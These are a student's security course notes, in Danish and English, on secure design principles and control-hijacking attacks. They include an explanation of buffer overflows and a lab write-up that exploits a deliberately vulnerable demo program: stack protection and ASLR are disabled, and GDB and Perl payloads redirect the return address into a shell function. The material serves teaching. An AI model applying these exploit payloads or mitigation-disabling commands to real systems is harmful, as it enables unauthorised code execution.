









Control hijacking attacks - god læsning, ikke nærlæse, mere skimme

## Design AND implementation AND configuration can result in vulns.
enheder dere fx tilgås med admin admin fra config, uden at man SKAL ændre i det.

### DESIGN vs Implementation
Ross Andersen = good name in the security miljø

1. Access control - hvem må læse/gøre hvad
2. Record opening - logs! hvem har været hvor og hvornår 
3. Control - who is responsible
4. Consent and notification - forældre / børn, givet consent osv
5. Persistence - No deletions, all data is kept, even errors, then you get an extra message
6. Attribution - audit trail of attributions, date and time for who accessed what adn when 
7. Information flow - info may be appended to other record if record is listed in first records access control
8. Aggregation - person is notified if somebody else accessed
9. Trusting computeing base - use systems that follow these principles, jo mindre jo bedre

Design vuln - forkert valg
Implementation vulns - forkert udført

### Common secure design issues
Design mjst specify security model structure that is being followed
Authentication, Authorization, Accounting (AAA)
Weak or Missing session management
Weak or Missing Authentication
Weak or Missing Authorization

### Input validation

Missing or flawed input validation is then umber one cause of many f the most severe vulknerabilities-

- Buffer overflows - writing into ciontrol structures of programs, taking over instructionds and progam flow --> privilege escalation, rremote code execution. 
- SQl injections 
- Cross site scripting
- Recommend centralization validation routines
- Perform validation in secure context, controller on server
- Secure compnent boundaries 

Begræns privileges og adgang, både users men også DB.
Design stuff to be updated 

other problems: 
- large attack surface
- running a process a too high a privilege level, dont run everythingg as root or admin
- no defencse in depth, use more controls, make a strong chain
- not failing securely
- mixing cpde and data
etc.

use PoLP, Failsafe defaults, principle of economy of mechanism (complexity invites problems), principle of complete mediation, principle of open design, Principle of Separation of Privilege, Principle of Least Astonishment

ideal = WEB app with database.

___
OPGAVER
____

[djando docs](https://docs.djangoproject.com/en/6.1/)

## Buffer overflow
Writing more data than there is space for. Overwrites real data and crashes the program, because the data that shouldve been used, is gone. We can use that to make the program do other things.
Today there is stack protection (and other), that protects the stack and other structures frmo being overwritten or changed though buffer overflow.
So new OS's not as likely to be buffered pverflowed than old ones, like raspebrry pies.

The way it runs when normal

What happens when someone overwrites the return value
You can run commands in there, instead of just having data stored, and then get access to whatever. Like shell code here.

This is an exploit, when you have found the values you need, memory addresses, no operations or watherver else, you can then "easily" add the data in where you want it.

If you need to be defending a machne again this, you need to know that stuff like this can happen, you could make sure that you have canaries in there, hidden values, before and after the function, if there are intact before and after, you can safely continue to run if not, make it crash to
 make sure nothing bad happens.

  CLAUDE DEF : 
  What's a "buffer"?
Imagine your computer's memory as a row of numbered boxes, each able to hold a little bit of data. A "buffer" is just a fixed-size chunk of these boxes that a program sets aside to temporarily hold some data — like a name, a password, or a chunk of a file — while it processes it.

For example, a program might say "I'll set aside 10 boxes to hold someone's username." That's the buffer: 10 boxes, no more, no less.

What's the "overflow"?
If someone (or something) tries to stuff more data into those boxes than they were designed to hold — say, typing a 50-character username into that 10-box buffer — the extra 40 characters don't just vanish. They spill over into the neighboring boxes right next to the buffer in memory, overwriting whatever was stored there.

That's the overflow: data leaking past its intended container into memory it wasn't supposed to touch.

Why is this dangerous?
Those neighboring "boxes" aren't empty decoration — they might hold:

Other important variables (you could corrupt the program's normal behavior)
Control data — like the "return address," which tells the program where to jump back to after finishing a function

That second one is the scary part. If an attacker carefully crafts the overflow data, they can overwrite that return address with an address pointing to their own malicious code (which they also snuck into memory via the overflow). When the program tries to "return" normally, it instead jumps straight into the attacker's code and executes it.

The end result:
A buffer overflow can let an attacker:

Crash the program (denial of service)
Corrupt data
Or, worst case, hijack execution and run arbitrary code with the same privileges as the vulnerable program — sometimes leading to full system compromise

Simple analogy to tie it together:
Think of the buffer as a shot glass, and the data as liquid being poured in. Pour exactly one shot's worth — fine. Pour a whole bottle in, and it overflows onto the counter, seeping into other things nearby — maybe short-circuiting the power outlet sitting right next to it. That "power outlet" is your return address; that's how a data-spill becomes a code-execution problem.

Why it happens (root cause):
Languages like C/C++ let programmers manually manage memory and don't automatically check whether data fits into a buffer before writing it. If the programmer forgets to check the length of input before copying it into a fixed-size buffer (classic culprits: strcpy, gets, sprintf without bounds), overflow becomes possible. Modern languages (Python, Java, Rust, etc.) either check bounds automatically or make this class of bug much harder to trigger.

Defenses (for context, since you're in security):

Bounds checking / safer functions (strncpy, snprintf)
Stack canaries (a "tripwire" value that gets checked before a function returns — if it's been overwritten, the program aborts)
ASLR (Address Space Layout Randomization) — makes it harder to guess where to jump to
DEP/NX bit — marks memory as non-executable so injected code can't just run

That's buffer overflow, A to Z — a boxes problem that becomes a "attacker can run their own code" problem.

_________

to find buffer overflow, you can :
- black box test
- closed tsource reverse engineering
-shite nox testing
- iopen source read and nalyse the code - there are tools
- Fuzzing (test and play, fuck around and find out)
- reverse engineer

### Preinciple of least privilege

### privilege escalation

When you escalate your own privileges to get access to more.

### Local vs remote exploits

explioit over network, or locally on a system
remote root exploit = worst kind, work over network and giive complete control aka root on Unix
Zero day explitos, exploits that suddenly pop up.

ple of real remote root exploit

## BUFFER OVERFLOW OPGAVE

What I accomplished

Using GDB, I found the exact offset needed to overwrite demo's saved return address on the stack, and successfully redirected execution (eip) into the the_shell() function — proving control-flow hijacking via a classic stack buffer overflow. system("/bin/dash") executed, but a live interactive shell didn't fully spawn due to stack-state corruption inside system()'s internals — consistent with the exercise's own warning that "getting a working exploit is hard." Per the exercise's stated solution criteria, redirecting execution as shown in GDB is the completion bar, and I met it.

Environment
Kali Linux VM (172.16.121.128)
gcc -m32 -o demo demo.c -fno-stack-protector -z execstack -no-pie -mpreferred-stack-boundary=2
ASLR disabled: sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

Why -mpreferred-stack-boundary=2 mattered: the default GCC build on this Kali version inserted a 16-byte stack-realignment stub (visible as %ecx juggling in the disassembly) that didn't match the exercise's assumed "classic" stack frame. Adding this flag removed that stub and restored a simple push %ebp; mov %esp,%ebp; ... pop %ebp; ret frame.

Step-by-step process

1. Confirm the crash.

gdb demo
run `perl -e "print 'A'x22; print 'B'; print 'C'"`

Confirmed a SIGSEGV — the program was trying to use overflowed data as part of execution.

2. Find the target address.

nm demo | grep the_shell

→ 080491db T the_shell

3. Find the true offset (don't trust the doc's example number). Used the compiler's own lea instruction from disas main to find exactly where buf sits relative to %ebp:

lea -0xe(%ebp),%eax   ; the address of buf, passed to strcpy
0xe = 14 (bytes from buf to saved %ebp)
4 bytes for the saved %ebp slot itself = 18 bytes total offset to the return address

4. Verify the offset with a controlled marker.

run `perl -e " print 'A'x18; print chr(0x42).chr(0x42).chr(0x42).chr(0x42)"`
info registers eip

→ eip = 0x42424242 — confirmed the offset was exactly right.

5. Convert the target address to a payload. the_shell is at 0x080491db. Split into bytes (08 04 91 db), reversed for little-endian (x86 is little-endian):

chr(0xdb).chr(0x91).chr(0x04).chr(0x08)

6. Run the real exploit.

run `perl -e " print 'A'x18; print chr(0xdb).chr(0x91).chr(0x04).chr(0x08)"`

→ Crashed at 0x080491e3 in the_shell () — confirming eip successfully jumped into and executed inside the_shell(), past the call system@plt instruction.

7. Investigated the incomplete shell spawn with strace.

strace -f ./demo `perl -e "print 'A'x18; print chr(0xdb).chr(0x91).chr(0x04).chr(0x08)"`

No execve("/bin/dash", ...) appeared in the trace; the process died with SIGSEGV at si_addr=0x4141413d — a pointer built from leftover A padding, misread somewhere inside system()'s internals. This happens because jumping into the_shell() via a hijacked return address (rather than a real call) doesn't set up the stack frame that system()/fork()/execve() expect internally.

Key concepts reinforced
Stack layout: buffer → saved %ebp (4 bytes) → saved return address (4 bytes)
Reading compiler-generated addresses (lea -0xN(%ebp)) is a reliable way to find real offsets instead of guessing from an example written for a different binary/build.
Little-endian byte ordering for constructing addresses on x86.
Modern GCC can insert stack-realignment code that changes frame layout — worth checking disas main before assuming a "classic" frame.
Redirecting eip is a different (and easier) bar than getting a fully functional, interactive spawned shell — the latter requires the target function's own internal expectations about stack state to also hold true.

Possible follow-up (not required for the exercise)

Padding with several repeated copies of the_shell's address instead of a single one, to make it more likely that any garbage return address read by system()'s internals also happens to be valid.

eip stands for Extended Instruction Pointer — it's the CPU register that holds the address of the next instruction the processor is about to execute.

Think of it as a bookmark: at every single moment while a program runs, eip points to exactly where in memory the CPU currently is, reading and running code one instruction at a time. After each instruction executes, eip automatically advances to the next one — unless something explicitly changes it, like a call, a jmp, or a ret.